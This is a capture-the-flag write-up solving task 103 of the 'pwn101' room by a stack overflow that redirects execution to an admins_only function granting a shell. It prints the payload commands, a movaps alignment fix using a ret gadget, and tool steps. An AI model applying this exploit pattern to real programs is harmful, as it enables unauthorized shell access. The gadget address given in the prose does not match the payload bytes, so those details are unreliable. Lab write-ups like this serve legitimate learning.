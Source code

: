 # How to exploit 103 task from the room pwn101 ?

## exploit

```bash
	$ python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
 	$ (echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

## Why ?

begin with the begining, find the vector:

- check the first input
- check the others possibilities of the menu

so, let's check the first input after the try of adding a lot of 'A' we don't find the vector here now, let check the others menu:

1. Announcements: juste some text so not input
2. Rules: same as Announcements
3. Général: check with a lot of 'A' and let's go ! we find the enter !

now, let's exploit !

### find the size of the buffer

we're going to find the size of the buffer by using `msf-pattern` and `gdb-peda`:

```bash
	msf-pattern_create -l 100
```

then run gdb peda:
![](img/gdb.png)

the use msf-patter_offset:

```bash
	msf-pattern_offset -q 0x4132624131624130
```

### find interesting functions

and we find that the buffer has a size of 32 or 0x20 bits now, we have to find how to exploit let's open cutter to find some intersting funtions or others:

![](img/cutter.png)

so, we finds the function admins_only who give a shell a the adress `0x00401554`

## PWN !

now we have all to exploit:
- buffer size
- function to call

### let's build the exploit !

payload = buffer_size + 8bits to write into the RSP registre + admins_only adress

let's try it !

```bash
	python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
	(echo "3\n"; cat payload; cat) | ./pwn103.pwn103 
```

saddly, it's didn't work...

![](img/fail.png)

So why ?!
it's because the movaps issue: [link to a ressource](https://ropemporium.com/guide.html)\
the solution from the website:

	The MOVAPS issue
	If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so, let's find a ret intruction and add it into our payload

### find a ret instruction

let's use `ROPgadget` to find a ret instruction:
```bash
	ROPgadget --binary pwn103.pwn103 | grep ret
```
![](img/ROPgadget.png)

so let's add `0x0000000000401016` to the payload

## Exploitation

new payload = buffer_size + 8bits to write into the RSP registre + ret_adress + admins_only adress

```bash
	$ python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
 	$ (echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

![](img/exploit.png)

GG !